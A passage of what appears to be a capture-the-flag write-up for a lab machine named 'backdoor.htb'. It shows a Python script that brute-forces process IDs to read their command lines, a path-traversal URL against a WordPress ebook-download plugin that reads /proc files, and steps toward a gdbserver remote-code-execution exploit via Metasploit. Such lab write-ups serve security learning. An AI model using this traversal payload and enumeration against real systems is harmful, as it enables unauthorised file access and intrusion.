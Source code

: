 ```bash

def main():
    print("Starting PID brute-forcing...")
    results = []
    
    # Use ThreadPoolExecutor for parallel requests
    with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
        # Map PIDs to fetch_pid_cmdline function with progress bar
        future_to_pid = {executor.submit(fetch_pid_cmdline, pid): pid for pid in PID_RANGE}
        for future in tqdm(future_to_pid, total=len(PID_RANGE), desc="Scanning PIDs"):
            pid, cmdline = future.result()
            if cmdline:
                output = f"PID {pid}: {cmdline}"
                print(output)
                logging.info(f"{cmdline}", extra={'pid': pid})
                results.append((pid, cmdline))
    
    # Summary
    print(f"\nFound {len(results)} active PIDs with command lines.")
    if results:
        print("Results saved to pid_bruteforce.log")

if __name__ == "__main__":
    main()
```

Now let’s execute it:

```bash
python3 pid_bruteforce.py | grep 1337

PID 852: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

```

A gdbserver is on 1337. Let’s search up gdbserver exploit. We find one with RCE https://www.exploit-db.com/exploits/50539

It also seems to be on msfconsole. Let’s do that:

```bash
msfconsole
search gdbserver
```

Find version of backend:

```bash
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../proc/cpuinfo

cat cpuinfo | grep lm

flags           : <SNIP> cp lm constant_tsc rep_good
```

